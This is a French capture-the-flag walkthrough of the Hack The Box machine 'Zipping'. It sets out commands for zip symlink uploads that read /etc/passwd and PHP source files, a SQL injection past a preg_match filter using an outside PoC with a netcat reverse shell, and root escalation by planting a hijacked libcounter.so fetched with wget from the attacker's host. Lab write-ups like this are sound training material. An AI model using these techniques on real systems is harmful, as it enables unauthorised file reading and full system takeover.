   # Zipping

	echo "10.10.11.229 zipping.htb" >> /etc/hosts
	sudo masscan -p1-65535,U:1-65535 10.10.11.229 -e tun0 > ports.txt
	sudo nmap -p- -sV -T4 -A 10.10.11.229 -oN nmap.txt
	feroxbuster --silent -u http://zipping.htb
	
Scans classiques.

	PORT   STATE SERVICE VERSION
	22/tcp open  ssh     OpenSSH 9.0p1 Ubuntu 1ubuntu7.3 (Ubuntu Linux; protocol 2.0)
	80/tcp open  http    Apache httpd 2.4.54 ((Ubuntu))


Une page et un dossier très intéressants sont sortis par Feroxbuster : 

> ...
> <br>http://zipping.htb/uploads
> <br>http://zipping.htb/upload.php
> <br>...

Le dossier /uploads/ nous sort une erreur 403 mais la page upload.php est accessible et permet bien d'uploader des fichiers. Cette page permet de postuler en envoyant un CV. Le site précise que seul un fichier .zip sera accepté, et que ce dernier doit contenir un fichier au format PDF. En envoyant un fichier conforme, on obtient une URL de type **/uploads/365bde2d4d3a0e7d1d7f18d9cfb52779/fichier.pdf** 

Cela implique que le fichier est extrait en back end. Vu le nom de la VM, j'ai préféré cibler d'abord ce côté extraction avant de penser à l'upload arbitraire classique (null byte, double extension, ...).

Après un peu de documentation, on voit que les deux principales options dans ce cas de figure sont de faire télécharger des liens symboliques au serveur ou d'inclure des fichiers avec des caractères spéciaux pour tenter de remonter dans des dossiers supérieurs.

Voir : 
- https://book.hacktricks.xyz/v/fr/pentesting-web/file-upload 
- https://levelup.gitconnected.com/zip-based-exploits-zip-slip-and-zip-symlink-upload-21afd1da464f

J'ai commencé par essayer de lire **/etc/passwd** : 

	ln -s /etc/passwd passwd.pdf
	okular passwd.pdf
	zip --symlinks passwd.zip passwd.pdf

En allant sur le lien obtenu, on a une erreur indiquant que le document n'a pas pu être chargé. Mais en ouvrant la requête dans Burp ou avec Curl on voit bien le contenu du fichier /etc/passwd.

Le seul utilisateur qui semble intéressant à première vue est celui-ci : 
  
    rektsu:x:1001:1001::/home/rektsu:/bin/bash

Pas moyen d'obtenir de clé SSH, j'ai donc décidé de lire les sources : 

	echo "aaaa" > /var/www/html/upload.php
	ln -s /var/www/html/upload.php php.pdf
	zip --symlinks php.zip php.pdf
	...
	curl http://zipping.htb/uploads/abc3445778048c61c2f7727d8e346595/php.pdf --output upload.php

En répétant la même procédure pour index.php puis pour les autres pages que l'on peut trouver en suivant les différents codes sources **(/shop/home.php, /shop/cart.php, ...)** on finit par tomber sur un morceau très intéressant dans **cart.php** : 

	echo "aaaa" > /var/www/html/shop/cart.php
	ln  -s  ../../../../../../var/www/html/shop/cart.php php.pdf
	zip --symlinks php.zip php.pdf
	...
	curl http://zipping.htb/uploads/be9208c571675bc43a552b16c20b70ca/php.pdf --output cart.php
	cat cart.php

&nbsp; 

	if (isset($_POST['product_id'], $_POST['quantity'])) {
	    // Set the post variables so we easily identify them, also make sure they are integer
	    $product_id = $_POST['product_id'];
	    $quantity = $_POST['quantity'];
	    // Filtering user input for letters or special characters
	    if(preg_match("/^.*[A-Za-z!#$%^&*()\-_=+{}\[\]\\|;:'\",.<>\/?]|[^0-9]$/", $product_id, $match) || preg_match("/^.*[A-Za-z!#$%^&*()\-_=+{}[\]\\|;:'\",.<>\/?]/i", $quantity, $match)) {
	        echo '';
	    } else {
	        // Construct the SQL statement with a vulnerable parameter
	        $sql = "SELECT * FROM products WHERE id = '" . $_POST['product_id'] . "'";
	
Le back end vérifie ce que l'on envoie à cette page avec la fonction **preg_match()** qui est connue pour être vulnérable.
<br>Voir : https://book.hacktricks.xyz/network-services-pentesting/pentesting-web/php-tricks-esp#preg_match-. 

En achetant une montre et en surveillant l'historique Burp, on peut facilement trouver et reproduire la requête HTTP POST que l'on veut exploiter : 

	POST /shop/index.php?page=cart HTTP/1.1
	[...]
	quantity=1&product_id=3

Je n'ai pas réussi à finir l'exploitation de preg_match() moi-même mais j'ai trouvé un PoC déjà fait : https://github.com/saoGITo/HTB_Zipping/blob/main/HTB_Zipping_poc.py

	python poc.py 10.10.16.5 9999
	rlwrap nc -nvlp 9999
	...
	whoami
	cd /home/rektsu/
	cat user.txt
	

## Élévation de privilèges

	python3 -c "import pty ; pty.spawn('/bin/bash');"
	sudo -l 

>User rektsu may run the following commands on zipping:
&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;(ALL) NOPASSWD: /usr/bin/stock

	file /usr/bin/stock
	strings /usr/bin/stock

On remarque un morceau intéressant : 

> St0ckM4nager <br>/root/.stock.csv <br>Enter the password: <br>Invalid password, please try again.

On va pouvoir entrer ce mot de passe pour utiliser l'application : 

	sudo /usr/bin/stock

Rien de spécial, on peut juste modifier des articles avec des menus à numéros.

	strace /usr/bin/stock

Après avoir entré le mot de passe, on remarque la ligne suivante : 

> openat(AT_FDCWD, "/home/rektsu/.config/libcounter.so", O_RDONLY|O_CLOEXEC) = -1 ENOENT (No such file or directory)

Visiblement, ce script fait appel à une librairie située dans notre /home/
<br>Il est donc possible de générer une librairie factice, et de faire exécuter ce que l'on veut au système en tant que root : 

	wget http://10.10.16.5/shell.c
	mv /home/rektsu/.config/libcounter.so /home/rektsu/.config/libcounter.so_old
	gcc -shared -o /home/rektsu/.config/libcounter.so -fPIC shell.c
	sudo /usr/bin/stock
	...
	whoami
	cat /root/root.txt


	


